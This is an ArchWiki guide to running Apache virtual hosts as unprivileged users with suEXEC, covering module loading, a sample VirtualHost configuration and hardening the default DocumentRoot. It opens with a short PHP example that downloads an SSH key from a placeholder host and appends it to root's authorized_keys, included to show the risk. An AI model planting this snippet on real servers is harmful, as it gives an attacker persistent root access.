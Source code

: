 # Apache, suEXEC and Virtual Hosts

From ArchWiki

Jump to: [navigation](#column-one), [search](#searchInput)

This document describes how to use Apache's suEXEC module in order to have virtual hosts running as a unprivileged user. Generally it's good practice not to let any kind of webspace have superuser privileges like this rather brutal PHP example shows:

```
   <?php
     # of course this link doesn't lead anywhere
     $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
     exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
   ?>

```

You get the point, do you? To prevent this, never let any virtual host have write access anywhere but in its own home directory or DocumentRoot. Unfortunately this method requires Apache to run as superuser in order to be able to become another user but it's not a big deal since you do not need to run in the default DocumentRoot as superuser too.

You should also consider using suEXEC if you intend to have several FTP accounts pointing to those webspaces which need write permissions while the files still can be read by Apache.

Beware, though, that it is a security risk when the webserver can write to the php files, like when you have an FTP user website1 and the site runs as website1 as well. Code is often injected in PHP files such cases. It is far too common for self-upgradable or installable PHP software to require this permission model, without informing the user of the risk.

## Contents

*   [1 Prerequisites](#Prerequisites)
*   [2 Adding the suEXEC module to Apache](#Adding_the_suEXEC_module_to_Apache)
*   [3 Setting up a virtual Host to use suEXEC](#Setting_up_a_virtual_Host_to_use_suEXEC)
*   [4 "Disabling" default DocumentRoot](#.22Disabling.22_default_DocumentRoot)
*   [5 Finishing up](#Finishing_up)
*   [6 References](#References)

## Prerequisites

*   you should be familiar with basic configuration of Apache
    *   especially virtual hosts
*   superuser access to the target box
*   knowledge about adding users
*   can work with pacman

## Adding the suEXEC module to Apache

*   load the suEXEC module in `/etc/httpd/conf/httpd.conf` like this:

```
LoadModule suexec_module        lib/apache/mod_suexec.so

```

*   make sure Apache's default DocumentRoot does not run as superuser either!

```
User http
Group http

```

## Setting up a virtual Host to use suEXEC

One way to do it is directly in `/etc/httpd/conf/httpd.conf` but I suggest to use a separate file if you intend to create more than just a couple of virtual hosts. Either way, a virtual host that is supposed to use suEXEC may look something like this:

```
<VirtualHost 192.168.0.1:80>
        ServerName myhost
        ServerAlias  myhost.localdomain
        # this is where requests for / go
        DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

        # here you tell which user (myhost) and group (ftponly) Apache should use
        SuexecUserGroup myhost ftponly

        # the following are optional but might be of use for you
        ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
        php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
        php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
        # Safe mode will be removed as of PHP 6\. You may want to not enable it.
        php_admin_flag safe_mode On
        ErrorDocument 404 /home/www/vhosts/myhost.localdomain
        <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                AllowOverride None
                Order allow,deny
                Allow from all
                Options +SymlinksIfOwnerMatch +Includes
        </Directory>
</VirtualHost>

```

Note that we set upload_tmp_dir to a folder that is outside the document root of your web site (not `/home/www/vhosts/myhost.localdomain/htdocs/tmp`). It should also be not readable or writable by any other system users. This is for security reasons: this way it cannot be modified or overwritten while PHP is processing it.

## "Disabling" default DocumentRoot

To further harden your setup you can disable the default _DocumentRoot_ in order to not have Apache execute anything as the superuser itself runs as. This procedure does not really disable it, rather points it somewhere where it's not remotely accessible anymore. It can be easily achieved by replacing your default _ServerName_ with the following:

```
ServerName localhost:80

```

## Finishing up

Every time you change default configuration parameters you need to [restart](/index.php/Daemons#Restarting "Daemons") **httpd** (Apache) to make them take effect.

## References

*   more in depth information about suEXEC: [http://httpd.apache.org/docs/suexec.html](http://httpd.apache.org/docs/suexec.html)
*   same about VirtualHosts: [http://httpd.apache.org/docs/vhosts/index.html](http://httpd.apache.org/docs/vhosts/index.html)

Retrieved from "[https://wiki.archlinux.org/index.php?title=Apache,_suEXEC_and_Virtual_Hosts&oldid=388013](https://wiki.archlinux.org/index.php?title=Apache,_suEXEC_and_Virtual_Hosts&oldid=388013)"

[Category](/index.php/Special:Categories "Special:Categories"):

*   [Web server](/index.php/Category:Web_server "Category:Web server")